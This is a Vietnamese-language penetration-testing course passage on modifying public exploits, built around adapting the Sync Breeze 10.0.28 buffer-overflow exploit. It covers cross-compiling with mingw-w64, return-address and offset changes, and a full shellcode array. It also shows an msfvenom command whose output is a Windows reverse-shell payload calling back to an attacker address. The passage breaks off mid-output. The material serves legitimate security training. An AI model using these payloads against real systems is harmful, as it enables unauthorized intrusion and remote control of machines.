

# Fixing Exploits

# Fixing Exploits

---

Trong Module này, chúng ta sẽ đề cập đến các Learning Unit sau:

- Sửa đổi exploit Memory Corruption
- Sửa đổi Web Exploit

Việc viết exploit từ đầu có thể khó khăn và tốn nhiều thời gian. Tuy nhiên, việc tìm được một public exploit phù hợp chính xác với nhu cầu của chúng ta trong quá trình thực hiện một engagement cũng có thể khó khăn và tốn thời gian không kém. Một giải pháp dung hòa rất hiệu quả là chỉnh sửa một public exploit để phù hợp với nhu cầu cụ thể của chúng ta.

Tuy nhiên, việc viết exploit từ đầu cũng đi kèm với nhiều thách thức. Trong trường hợp các exploit thuộc dạng memory corruption như buffer overflow, chúng ta có thể cần phải chỉnh sửa các tham số mục tiêu cơ bản như thông tin socket, return address, payload và offsets.

Việc hiểu rõ từng thành phần này là vô cùng quan trọng. Ví dụ, nếu mục tiêu của chúng ta đang chạy Windows Server 2022 và chúng ta cố gắng chạy một exploit được viết và kiểm thử cho Windows 2003 Server, thì các cơ chế bảo vệ mới hơn như Address Space Layout Randomization (ASLR) rất có khả năng sẽ khiến ứng dụng bị crash. Những sự cố như vậy có thể khiến vector tấn công đó bị khóa trong một khoảng thời gian hoặc thậm chí ảnh hưởng đến môi trường production - cả hai tình huống này đều là những điều chúng ta cần tránh.

Trước khi thực hiện một penetration test, phạm vi (scope) của bài kiểm thử cần được xác định rõ ràng từ đầu và khách hàng phải chấp nhận các rủi ro downtime tiềm ẩn liên quan đến các vector tấn công. Ghi nhớ điều này, với vai trò là penetration tester, chúng ta luôn nên nỗ lực giảm thiểu tối đa tác động của bất kỳ exploit nào mà chúng ta dự định chạy.

Để tránh downtime tiềm ẩn, thay vì chạy ngay một exploit không tương thích, chúng ta nên luôn đọc kỹ mã exploit, chỉnh sửa nó khi cần thiết và kiểm thử nó trên môi trường sandbox của riêng mình bất cứ khi nào có thể.

Các biến số phụ thuộc vào mục tiêu này giải thích vì sao các tài nguyên trực tuyến như Exploit Database lưu trữ nhiều exploit khác nhau cho cùng một vulnerability, mỗi exploit được viết cho các phiên bản hệ điều hành và kiến trúc mục tiêu khác nhau.

Chúng ta cũng có thể hưởng lợi từ việc port một exploit sang một ngôn ngữ khác nhằm tận dụng các thư viện có sẵn đã được viết trước và mở rộng chức năng của exploit bằng cách import nó vào một attack framework.

Cuối cùng, các exploit được viết để chạy trên một hệ điều hành và kiến trúc cụ thể có thể cần được port sang một nền tảng khác. Ví dụ, chúng ta thường gặp các tình huống trong đó exploit cần được compile trên Windows nhưng chúng ta lại muốn chạy nó trên Kali.

Bên cạnh việc sửa đổi các exploit memory corruption, chúng ta cũng sẽ học cách điều chỉnh các exploit liên quan đến web application, vốn thường bao gồm việc chỉnh sửa socket option và các tham số đặc thù của ứng dụng như URI path, cookie, và các thành phần khác.

Trong Module này, chúng ta sẽ vượt qua nhiều thách thức như vậy thông qua việc đi từng bước cần thiết để chỉnh sửa các public exploit thuộc dạng memory corruption và web exploit nhằm phù hợp với một attack platform và target cụ thể.

---

# **13.1. Sửa đổi Exploit Memory Corruption**

---

Các exploit thuộc dạng memory corruption, chẳng hạn như buffer overflow, tương đối phức tạp và có thể rất khó để chỉnh sửa.

Learning Unit này bao gồm các Learning Objective sau:

- Hiểu lý thuyết buffer overflow ở mức high-level
- Cross-compile binary
- Chỉnh sửa và cập nhật các exploit memory corruption

Trước khi đi vào một ví dụ cụ thể, chúng ta sẽ thảo luận trước về lý thuyết high-level đằng sau các lỗ hổng stack-based buffer overflow. Sau đó, chúng ta sẽ trình bày phương pháp luận (methodology) và nhấn mạnh một số yếu tố cần cân nhắc cũng như các thách thức mà chúng ta sẽ gặp phải khi sửa đổi các loại exploit này.

---

## 13.1.1. Buffer Overflow – Tổng quan ngắn gọn

---

Nói chung, buffer là một vùng bộ nhớ được thiết kế để chứa dữ liệu, thường là nội dung do người dùng gửi vào để xử lý về sau. Một số buffer có kích thước động (dynamic size), trong khi những buffer khác có kích thước cố định, được cấp phát sẵn (fixed, preallocated size).

Buffer overflow là một trong những lỗ hổng memory corruption sớm nhất đã làm suy yếu phần mềm kể từ cuối những năm 1980. Mặc dù trong nhiều năm qua đã có nhiều cơ chế giảm thiểu (mitigation) được phát triển, loại lỗ hổng này đến nay vẫn còn mang tính thời sự.

Ở góc nhìn tổng quát (bird’s-eye view), một lỗ hổng buffer overflow xảy ra khi dữ liệu do người dùng cung cấp vượt quá giới hạn của stack và ghi đè sang vùng bộ nhớ liền kề. Một ví dụ được minh họa trong sơ đồ sau.



                                  ***Figure 1: Stack-Based Buffer Overflow – Exploitation Stages***

Trong sơ đồ này, một buffer được thiết kế để chứa một mật khẩu có độ dài tối đa là 8 byte. Nếu người dùng cung cấp một input bao gồm chuỗi ký tự “password” theo sau bởi các số “4” và “3”, thì hai chữ số cuối sẽ làm buffer bị overflow thêm 2 byte. Nếu không được xử lý đúng cách, sự kiện này có thể dẫn đến hành vi không mong muốn của ứng dụng, như chúng ta sẽ sớm quan sát.

*Mặc dù việc viết exploit buffer overflow nằm ngoài phạm vi của khóa học, chúng ta vẫn học cách chúng hoạt động để có thể hiểu khi nào và bằng cách nào cần điều chỉnh chúng mỗi khi gặp các vector tấn công này trong một engagement.*

Các lỗ hổng memory corruption có thể xảy ra ở nhiều phần khác nhau của chương trình, chẳng hạn như heap hoặc stack. Heap được quản lý động và thường lưu trữ các khối dữ liệu lớn có thể truy cập toàn cục, trong khi stack có mục đích lưu trữ dữ liệu cục bộ của các hàm và kích thước của nó thường là cố định.

Stack thường chứa các biến cục bộ như số nguyên hoặc buffer. Để có một ví dụ thực tế về cách buffer overflow có thể xảy ra, hãy xem đoạn mã C rút gọn gồm hai dòng sau.

```
buffer[64]
...
strcpy(buffer, argv[1]);
```

                          ***Listing 1 – Khai báo buffer và sao chép dữ liệu người dùng vào buffer***

Trong ví dụ trên, một buffer có độ dài 64 ký tự được khai báo và một tham số dòng lệnh do người dùng cung cấp được sao chép vào đó thông qua hàm `strcpy`. Hàm này sao chép chuỗi nguồn được truyền vào tham số thứ hai vào buffer được truyền vào tham số thứ nhất. Hàm này được đánh dấu là không an toàn vì nó không kiểm tra xem địa chỉ đích có đủ không gian để chứa chuỗi nguồn hay không, điều này có thể dẫn đến hành vi không mong muốn của ứng dụng.

Stack sẽ cấp phát chính xác lượng không gian cần thiết cho buffer (64 byte trong trường hợp này), cùng với các tham số hàm và return address. Return address là một địa chỉ bộ nhớ lưu trữ hàm tiếp theo sẽ được thực thi sau khi hàm hiện tại kết thúc.

Nếu input của người dùng lớn hơn không gian của buffer đích, nó có thể ghi đè lên return address.

Việc ghi đè return address có ý nghĩa rất nghiêm trọng, bởi vì khi một hàm kết thúc, nó sẽ thực thi lệnh `ret`, lệnh này nạp return address vào EIP/RIP — instruction pointer chịu trách nhiệm theo dõi các chỉ thị mã đang được thực thi.

Nếu kẻ tấn công kiểm soát được return address, họ có thể kiểm soát luôn program flow. Hãy xem các giai đoạn khai thác (exploitation stages) của một cuộc tấn công stack-based buffer overflow.


                                ***Figure 1: Stack-Based Buffer Overflow – Exploitation Stages***

Hình ảnh này minh họa ba trạng thái khác nhau của stack. Ở cột ngoài cùng bên trái, buffer được khởi tạo tại runtime và không gian của nó được cấp phát trong bộ nhớ. Bên dưới, được tô màu đỏ, return address giữ giá trị địa chỉ bộ nhớ chính xác. Ở panel trung tâm, input của người dùng chỉ chứa 32 ký tự, nghĩa là nó chỉ lấp đầy một nửa buffer. Tuy nhiên, trong kịch bản bên phải, người dùng đã gửi 80 ký tự “A”, do đó lấp đầy toàn bộ buffer dài 64 byte và ghi đè lên return address.

Vì ký tự “A” khi chuyển sang dạng hexadecimal sẽ là “41”, nên return address sẽ bị ghi đè thành giá trị `\x41\x41\x41\x41`.

Thay vì ghi đè return address bằng bốn ký tự A, kẻ tấn công thường ghi đè return address bằng một địa chỉ bộ nhớ hợp lệ và đã được map, nơi chứa shellcode cho phép kẻ tấn công kiểm soát hoàn toàn máy mục tiêu.

Một kịch bản tấn công buffer overflow điển hình bao gồm việc ghi đè return address bằng một lệnh `JMP ESP`, lệnh này yêu cầu chương trình nhảy tới stack và thực thi shellcode đã được inject ngay sau phần đầu của payload.

Kiểu tấn công này đã được ghi nhận từ cuối những năm 1980, dẫn đến sự phát triển của nhiều cơ chế giảm thiểu như ASLR và Executable Space Protection, cùng các biện pháp khác. Vì các exploit mitigation không nằm trong phạm vi của Module này, chúng ta sẽ giả định rằng mục tiêu của mình không bật các cơ chế này.

Luồng tổng quát của một stack-based buffer overflow tiêu chuẩn là khá đơn giản. Exploit sẽ:

- Tạo một buffer lớn để kích hoạt overflow
- Chiếm quyền kiểm soát EIP bằng cách ghi đè return address trên stack, đệm buffer lớn với offset phù hợp
- Bao gồm payload đã chọn trong buffer, có thể được prepend bởi một NOP sled tùy chọn
- Chọn một instruction return address phù hợp như `JMP ESP` (hoặc một thanh ghi khác) để chuyển hướng execution flow tới payload

Khi sửa đổi exploit, tùy thuộc vào bản chất của lỗ hổng, chúng ta có thể cần chỉnh sửa các thành phần của buffer đã triển khai để phù hợp với mục tiêu, chẳng hạn như file path, địa chỉ IP và port, URL, và nhiều yếu tố khác. Nếu các chỉnh sửa này làm thay đổi offset, chúng ta phải điều chỉnh lại độ dài buffer để đảm bảo return address bị ghi đè bằng đúng byte mong muốn.

Mặc dù chúng ta có thể tin rằng return address được sử dụng trong exploit là chính xác, nhưng lựa chọn có trách nhiệm hơn là tự tìm return address, đặc biệt khi địa chỉ đó không thuộc về ứng dụng dễ bị tổn thương hoặc các thư viện của nó. Một trong những cách đáng tin cậy nhất để làm điều này là clone môi trường mục tiêu về máy local trong một virtual machine, sau đó sử dụng debugger trên phần mềm dễ bị tổn thương để lấy địa chỉ bộ nhớ của instruction return address.

Chúng ta cũng cần cân nhắc việc thay đổi payload chứa trong exploit gốc.

Như đã đề cập trong một Module trước, public exploit tiềm ẩn rủi ro vì chúng thường chứa payload được mã hóa dưới dạng hex, và cần phải reverse engineer để xác định cách chúng hoạt động. Vì lý do này, chúng ta luôn phải kiểm tra payload được sử dụng trong public exploit, hoặc tốt hơn là tự chèn payload của riêng mình.

Khi tạo payload, chúng ta hiển nhiên sẽ bao gồm địa chỉ IP và số port của chính mình, đồng thời có thể loại bỏ một số bad character - những ký tự này có thể được xác định độc lập hoặc rút ra từ comment trong exploit.

Bad character là các ký tự ASCII hoặc UNICODE làm ứng dụng bị lỗi khi xuất hiện trong payload, vì chúng có thể bị diễn giải như control character. Ví dụ, null-byte `\x00` thường được hiểu là ký tự kết thúc chuỗi và nếu được chèn vào payload, nó có thể làm buffer tấn công bị cắt ngắn sớm.

Mặc dù việc tự tạo payload được khuyến nghị bất cứ khi nào có thể, vẫn tồn tại các exploit sử dụng payload tùy chỉnh đóng vai trò then chốt để compromise thành công ứng dụng dễ bị tổn thương. Trong trường hợp đó, lựa chọn duy nhất của chúng ta là reverse engineer payload để xác định cách nó hoạt động và liệu nó có an toàn để thực thi hay không. Việc này rất khó và nằm ngoài phạm vi của Module này, vì vậy chúng ta sẽ tập trung vào việc thay thế shellcode.

---

## 13.1.2. Import và Phân tích Exploit

---

Trong ví dụ này, chúng ta sẽ nhắm tới **Sync Breeze Enterprise 10.0.28** và tập trung vào một trong hai exploit hiện có. Điều này sẽ cung cấp cho chúng ta một exploit hoạt động được trong môi trường mục tiêu và cho phép chúng ta đi từng bước qua quá trình chỉnh sửa.

Khi tìm kiếm theo tên sản phẩm và phiên bản, chúng ta sẽ nhận thấy rằng một trong các exploit khả dụng cho lỗ hổng cụ thể này được viết bằng ngôn ngữ C.

```bash
kali@kali:~$ searchsploit "Sync Breeze Enterprise 10.0.28"
---------------------------------------------------------------- ---------------------
 Exploit Title                                      |  Path (/usr/share/exploitdb/)
---------------------------------------------------- ---------------------------------
Sync Breeze Enterprise 10.0.28 - Denial of-Service (PoC) | windows/dos/43200.py
Sync Breeze Enterprise 10.0.28 - Remote Buffer Over | exploits/windows/remote/42928.py
Sync Breeze Enterprise 10.0.28 - Remote Buffer Over | exploits/windows/dos/42341.c
---------------------------------------------------------------- ---------------------
```

    ***Listing 2 – Tìm kiếm các exploit khả dụng cho phần mềm dễ bị tổn thương bằng searchsploit***

Các exploit Denial of Service (DoS) chỉ dẫn đến việc ứng dụng bị crash đơn thuần và không có lộ trình khai thác rõ ràng. Thông thường, chúng ta nên tránh các exploit DoS khi có những lựa chọn tốt hơn, như trong trường hợp này. Thay vào đó, chúng ta sẽ tập trung vào hai mục cuối cùng.

Lỗ hổng tồn tại trong module HTTP server, nơi điều kiện buffer overflow được kích hoạt thông qua một POST request. Mặc dù chúng tôi khuyến nghị đọc toàn bộ mã exploit Python, nhưng chức năng cốt lõi của script exploit có thể được tóm tắt bằng đoạn mã sau:

```python
offset    = "A" * 780 
JMP_ESP   =  "\x83\x0c\x09\x10"
shellcode = "\x90"*16 + msf_shellcode
exploit   = offset + JMP_ESP + shellcode
```

                                         ***Listing 3 – Tóm tắt exploit Sync Breeze 10.0.28***

Tại offset 780, chúng ta ghi đè instruction pointer bằng một instruction `JMP ESP` nằm tại địa chỉ bộ nhớ `0x10090c83`. Tiếp theo, chúng ta nối shellcode với 16 NOP. Cuối cùng, buffer exploit được đưa vào HTTP POST request và gửi đi.

Khi đã hiểu rõ hơn cách lỗ hổng hoạt động cũng như cách nó bị khai thác, chúng ta sẽ nhanh chóng xem xét sự khác biệt giữa các scripting language như Python và một compiled language như C.

Mặc dù có rất nhiều khác biệt giữa hai ngôn ngữ, chúng ta sẽ tập trung vào hai điểm chính có ảnh hưởng trực tiếp đến chúng ta, bao gồm memory management và string operation.

Khác biệt quan trọng đầu tiên là các scripting language được thực thi thông qua interpreter chứ không được compile để tạo thành một executable độc lập. Do scripting language cần interpreter, chúng ta không thể chạy một Python script trong môi trường không cài đặt Python. Điều này có thể gây hạn chế trong thực tế, đặc biệt khi chúng ta cần một exploit dạng stand-alone (ví dụ local privilege escalation) phải chạy trong môi trường không có Python được cài sẵn.

*Như một phương án thay thế, chúng ta có thể cân nhắc sử dụng PyInstaller, công cụ đóng gói ứng dụng Python thành các executable độc lập cho nhiều hệ điều hành mục tiêu khác nhau. Tuy nhiên, do các đặc thù của mã exploit, chúng tôi khuyến nghị port mã bằng tay.*

Một khác biệt nữa giữa Python và C là trong một scripting language như Python, việc nối chuỗi (string concatenation) rất đơn giản và thường được thực hiện dưới dạng phép cộng giữa hai chuỗi:

```bash
kali@kali:~$ python
...
>>> string1 = "This is"
>>> string2 = " a test"
>>> string3 = string1 + string2

>>> print(string3)
This is a test
```

                                                  ***Listing 4 – Ví dụ nối chuỗi trong Python***

Việc nối chuỗi theo cách này không được phép trong một ngôn ngữ lập trình như C.

Việc sửa các chương trình viết bằng C đòi hỏi nhiều biện pháp cẩn trọng hơn so với các chương trình viết bằng Python. Chúng ta sẽ học cách thực hiện điều này trong C, vì điều này sẽ cung cấp cho chúng ta kiến thức hữu ích trong quá trình thực hiện một penetration test engagement.

Để bắt đầu quá trình chỉnh sửa exploit, chúng ta sẽ di chuyển exploit mục tiêu về thư mục làm việc hiện tại bằng tùy chọn `-m` (mirror/copy) tiện lợi của SearchSploit.

```bash
kali@kali:~$ searchsploit -m 42341
  Exploit: Sync Breeze Enterprise 10.0.28 - Remote Buffer Overflow (PoC)
      URL: https://www.exploit-db.com/exploits/42341/
     Path: /usr/share/exploitdb/exploits/windows/dos/42341.c
File Type: C source, UTF-8 Unicode text, with CRLF line terminators

Copied to: /home/kali/42341.c
```

              ***Listing 5 – Sử dụng searchsploit để sao chép exploit vào thư mục làm việc hiện tại***

Sau khi exploit đã được mirror về thư mục home, chúng ta có thể kiểm tra mã để xác định những chỉnh sửa (nếu có) cần thiết nhằm compile exploit để hoạt động trong môi trường mục tiêu.

Tuy nhiên, ngay cả trước khi nghĩ tới việc compile, chúng ta sẽ nhận thấy các header (chẳng hạn như `winsock2.h`) cho thấy đoạn mã này được thiết kế để compile trên Windows:

```
#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>
```

                                         ***Listing 6 – Hiển thị các header C ở đầu mã exploit***

Mặc dù chúng ta có thể thử compile exploit này trên Windows, nhưng thay vào đó, chúng ta sẽ **cross-compile** exploit này bằng Kali.

---

## 13.1.3. Cross-Compiling Mã Exploit

---

Để tránh các vấn đề khi compile, thông thường người ta khuyến nghị sử dụng compiler native cho đúng hệ điều hành mà mã nguồn nhắm tới; tuy nhiên, điều này không phải lúc nào cũng khả thi.

Trong một số kịch bản, chúng ta có thể chỉ có quyền truy cập vào một môi trường tấn công duy nhất (ví dụ như Kali), nhưng lại cần khai thác một exploit được viết cho một nền tảng khác. Trong những trường hợp như vậy, cross-compiler có thể cực kỳ hữu ích.

Trong phần này, chúng ta sẽ sử dụng cross-compiler rất phổ biến là **mingw-w64**. Nếu công cụ này chưa có sẵn, chúng ta có thể cài đặt nó bằng apt.

```bash
kali@kali:~$ sudo apt install mingw-w64
```

                                   ***Listing 7 – Cài đặt cross-compiler mingw-w64 trên Kali***

Chúng ta có thể sử dụng mingw-w64 để compile mã nguồn thành một file Windows Portable Executable (PE). Bước đầu tiên là xác định xem mã exploit có compile được mà không gặp lỗi hay không. Chúng ta có thể thực hiện điều này bằng cách gọi cross-compiler, truyền file C source làm tham số thứ nhất và tên file PE output làm tham số thứ hai, được đặt sau tùy chọn `-o`.

```bash
kali@kali:~$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x97): undefined reference to `_imp__WSAStartup@8'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0xa5): undefined reference to `_imp__WSAGetLastError@0'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0xe9): undefined reference to `_imp__socket@12'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0xfc): undefined reference to `_imp__WSAGetLastError@0'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x126): undefined reference to `_imp__inet_addr@4'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x146): undefined reference to `_imp__htons@4'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x16f): undefined reference to `_imp__connect@12'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x1b8): undefined reference to `_imp__send@16'
/usr/bin/i686-w64-mingw32-ld: /tmp/cchs0xza.o:42341.c:(.text+0x1eb): undefined reference to `_imp__closesocket@4'
collect2: error: ld returned 1 exit status
```

                 ***Listing 8 – Các lỗi hiển thị sau khi cố gắng compile exploit bằng mingw-w64***

Đã có sự cố xảy ra trong quá trình compile. Mặc dù các lỗi trong Listing 8 có thể trông xa lạ, nhưng chỉ cần một tìm kiếm Google đơn giản với lỗi đầu tiên liên quan đến “WSAStartup” sẽ cho thấy đây là một hàm nằm trong `winsock.h`. Việc tìm hiểu thêm cho thấy các lỗi này xuất hiện khi linker không thể tìm thấy thư viện winsock, và việc thêm tham số `-lws2_32` vào lệnh `i686-w64-mingw32-gcc` sẽ khắc phục được vấn đề.

```bash
kali@kali:~$ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

kali@kali:~$ ls -lah
total 372K
drwxr-xr-x  2 root root 4.0K Feb 24 17:13 .
drwxr-xr-x 17 root root 4.0K Feb 24 15:42 ..
-rw-r--r--  1 root root 4.7K Feb 24 15:46 42341.c
-rwxr-xr-x  1 root root 355K Feb 24 17:13 syncbreeze_exploit.exe
```

***Listing 9 – Compile thành công mã nguồn sau khi điều chỉnh lệnh mingw-w64 để link thư viện winsock***

Lần này, mingw32 đã tạo ra một executable mà không phát sinh bất kỳ lỗi compile nào. Với tùy chọn `-l`, chúng ta có thể chỉ thị cho mingw-w64 tìm DLL `ws2_32` và đưa nó vào executable cuối cùng thông qua static linking.

Chúng ta đã biết exploit này nhắm tới một lỗ hổng có thể truy cập từ xa, điều này có nghĩa là mã của chúng ta cần thiết lập một kết nối tới mục tiêu tại một thời điểm nào đó.

Khi kiểm tra mã C, chúng ta sẽ nhận thấy rằng nó sử dụng các giá trị hard-coded cho trường địa chỉ IP và port:

```c
printf("[>] Socket created.\n");
server.sin_addr.s_addr = inet_addr("10.11.0.22");
server.sin_family = AF_INET;
server.sin_port = htons(80);
```

                      ***Listing 10 – Xác định các dòng mã chịu trách nhiệm cho địa chỉ IP và port***

Đây sẽ là những giá trị đầu tiên mà chúng ta cần điều chỉnh trong exploit của mình.

---

## **13.1.4. Sửa Exploit**

---

Hãy review kỹ hơn mã C. Kiểm tra sâu hơn cho thấy exploit đang dùng một return address nằm trong Visual Basic 6.0 runtime `msvbvm60.dll`, vốn không thuộc về phần mềm dễ bị tổn thương. Khi kiểm tra các module đã load trong debugger trên Windows client, chúng ta thấy DLL này không tồn tại, đồng nghĩa return address đó sẽ không hợp lệ với mục tiêu của chúng ta.

Để xác minh, trước tiên chúng ta cần start **Sync Breeze Service** trên Windows 10 client. Tiếp theo, chúng ta có thể chạy **Immunity Debugger** với quyền administrator, chọn **File > Attach**, và chọn process **syncbrs**. Sau khi attach xong, chọn menu **View**, sau đó **Executable modules**. Tại đây, chúng ta có thể xác nhận `msvbvm60.dll` không tồn tại bằng cách kiểm tra các giá trị **Name** và **Path**.

Vì phiên bản Python của exploit được đánh dấu là **EDB Verified** và do đó đã được chứng minh là hoạt động, chúng ta có thể thay return address mục tiêu bằng return address có trong phiên bản đó:

```c
unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83
```

                                                      ***Listing 11 – Thay đổi return address***

Nếu chúng ta không có sẵn return address từ một exploit đã phát triển trước đó, có một vài lựa chọn cần cân nhắc. Lựa chọn đầu tiên và cũng được khuyến nghị nhất là tái tạo (recreate) môi trường mục tiêu ở local và dùng debugger để xác định địa chỉ này.

Nếu không thể làm vậy, chúng ta có thể tận dụng thông tin từ các public exploit khác để tìm một return address đáng tin cậy khớp với môi trường mục tiêu. Ví dụ, nếu cần return address cho instruction `JMP ESP` trên Windows Server 2019, chúng ta có thể tìm nó trong các public exploit khai thác các lỗ hổng khác nhưng nhắm tới hệ điều hành đó. Cách làm này kém tin cậy hơn và có thể khác nhau rất nhiều tùy thuộc vào các cơ chế bảo vệ được cài trên hệ điều hành.

Trong một buffer overflow “vanilla”, chúng ta không nên dựa vào các địa chỉ `JMP ESP` hard-coded lấy từ system DLL, vì các DLL này đều bị randomize mỗi lần boot do ASLR. Thay vào đó, chúng ta nên cố gắng tìm các instruction này trong các module không bật ASLR (non-ASLR) nằm trong ứng dụng dễ bị tổn thương, bất cứ khi nào có thể.

Chúng ta cũng có thể lấy return address trực tiếp từ máy mục tiêu. Nếu chúng ta có quyền truy cập mục tiêu với tư cách unprivileged user và muốn chạy một exploit để elevate privilege, chúng ta có thể copy các DLL mà chúng ta quan tâm về máy tấn công. Sau đó, chúng ta có thể dùng nhiều công cụ khác nhau, ví dụ disassembler như `objdump`, vốn được cài sẵn mặc định trên Kali.

Tiếp tục phân tích exploit C này, chúng ta sẽ thấy biến `shellcode` có vẻ đang giữ payload. Vì nó được lưu dưới dạng hex bytes, chúng ta không thể dễ dàng xác định mục đích của nó. Gợi ý duy nhất từ tác giả là về một **NOP slide** nằm trong biến `shellcode`:

```c
unsigned char shellcode[] = 
  "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
  "\xdb\xda\xbd\x92\xbc\xaf\xa7\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
  "\x52\x31\x68\x17\x83\xc0\x04\x03\xfa\xaf\x4d\x52\x06\x27\x13"
  "\x9d\xf6\xb8\x74\x17\x13\x89\xb4\x43\x50\xba\x04\x07\x34\x37"
  "\xee\x45\xac\xcc\x82\x41\xc3\x65\x28\xb4\xea\x76\x01\x84\x6d"
  "\xf5\x58\xd9\x4d\xc4\x92\x2c\x8c\x01\xce\xdd\xdc\xda\x84\x70"
  "\xf0\x6f\xd0\x48\x7b\x23\xf4\xc8\x98\xf4\xf7\xf9\x0f\x8e\xa1"
  "\xd9\xae\x43\xda\x53\xa8\x80\xe7\x2a\x43\x72\x93\xac\x85\x4a"
  "\x5c\x02\xe8\x62\xaf\x5a\x2d\x44\x50\x29\x47\xb6\xed\x2a\x9c"
  "\xc4\x29\xbe\x06\x6e\xb9\x18\xe2\x8e\x6e\xfe\x61\x9c\xdb\x74"
  "\x2d\x81\xda\x59\x46\xbd\x57\x5c\x88\x37\x23\x7b\x0c\x13\xf7"
  "\xe2\x15\xf9\x56\x1a\x45\xa2\x07\xbe\x0e\x4f\x53\xb3\x4d\x18"
  "\x90\xfe\x6d\xd8\xbe\x89\x1e\xea\x61\x22\x88\x46\xe9\xec\x4f"
  "\xa8\xc0\x49\xdf\x57\xeb\xa9\xf6\x93\xbf\xf9\x60\x35\xc0\x91"
  "\x70\xba\x15\x35\x20\x14\xc6\xf6\x90\xd4\xb6\x9e\xfa\xda\xe9"
  "\xbf\x05\x31\x82\x2a\xfc\xd2\x01\xba\x8a\xef\x32\xb9\x72\xe1"
  "\x9e\x34\x94\x6b\x0f\x11\x0f\x04\xb6\x38\xdb\xb5\x37\x97\xa6"
  "\xf6\xbc\x14\x57\xb8\x34\x50\x4b\x2d\xb5\x2f\x31\xf8\xca\x85"
  "\x5d\x66\x58\x42\x9d\xe1\x41\xdd\xca\xa6\xb4\x14\x9e\x5a\xee"
  "\x8e\xbc\xa6\x76\xe8\x04\x7d\x4b\xf7\x85\xf0\xf7\xd3\x95\xcc"
  "\xf8\x5f\xc1\x80\xae\x09\xbf\x66\x19\xf8\x69\x31\xf6\x52\xfd"
  "\xc4\x34\x65\x7b\xc9\x10\x13\x63\x78\xcd\x62\x9c\xb5\x99\x62"
  "\xe5\xab\x39\x8c\x3c\x68\x59\x6f\x94\x85\xf2\x36\x7d\x24\x9f"
  "\xc8\xa8\x6b\xa6\x4a\x58\x14\x5d\x52\x29\x11\x19\xd4\xc2\x6b"
  "\x32\xb1\xe4\xd8\x33\x90";
```

            ***Listing 12 – Nội dung biến shellcode có chứa một NOP slide trước payload thực tế***

Vì bad character đã được liệt kê trong exploit Python, chúng ta có thể tự generate payload bằng `msfvenom`, lưu ý nhắm tới platform x86 và format cho mã C:

```bash
kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
...
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] =
"\xdb\xcc\xbe\xa5\xcc\x28\x99\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x52\x31\x72\x17\x83\xc2\x04\x03\xd7\xdf\xca\x6c\xeb\x08\x88"
"\x8f\x13\xc9\xed\x06\xf6\xf8\x2d\x7c\x73\xaa\x9d\xf6\xd1\x47"
"\x55\x5a\xc1\xdc\x1b\x73\xe6\x55\x91\xa5\xc9\x66\x8a\x96\x48"
"\xe5\xd1\xca\xaa\xd4\x19\x1f\xab\x11\x47\xd2\xf9\xca\x03\x41"
"\xed\x7f\x59\x5a\x86\xcc\x4f\xda\x7b\x84\x6e\xcb\x2a\x9e\x28"
"\xcb\xcd\x73\x41\x42\xd5\x90\x6c\x1c\x6e\x62\x1a\x9f\xa6\xba"
"\xe3\x0c\x87\x72\x16\x4c\xc0\xb5\xc9\x3b\x38\xc6\x74\x3c\xff"
"\xb4\xa2\xc9\x1b\x1e\x20\x69\xc7\x9e\xe5\xec\x8c\xad\x42\x7a"
"\xca\xb1\x55\xaf\x61\xcd\xde\x4e\xa5\x47\xa4\x74\x61\x03\x7e"
"\x14\x30\xe9\xd1\x29\x22\x52\x8d\x8f\x29\x7f\xda\xbd\x70\xe8"
"\x2f\x8c\x8a\xe8\x27\x87\xf9\xda\xe8\x33\x95\x56\x60\x9a\x62"
"\x98\x5b\x5a\xfc\x67\x64\x9b\xd5\xa3\x30\xcb\x4d\x05\x39\x80"
"\x8d\xaa\xec\x07\xdd\x04\x5f\xe8\x8d\xe4\x0f\x80\xc7\xea\x70"
"\xb0\xe8\x20\x19\x5b\x13\xa3\xe6\x34\x29\x37\x8f\x46\x4d\x36"
"\xf4\xce\xab\x52\x1a\x87\x64\xcb\x83\x82\xfe\x6a\x4b\x19\x7b"
"\xac\xc7\xae\x7c\x63\x20\xda\x6e\x14\xc0\x91\xcc\xb3\xdf\x0f"
"\x78\x5f\x4d\xd4\x78\x16\x6e\x43\x2f\x7f\x40\x9a\xa5\x6d\xfb"
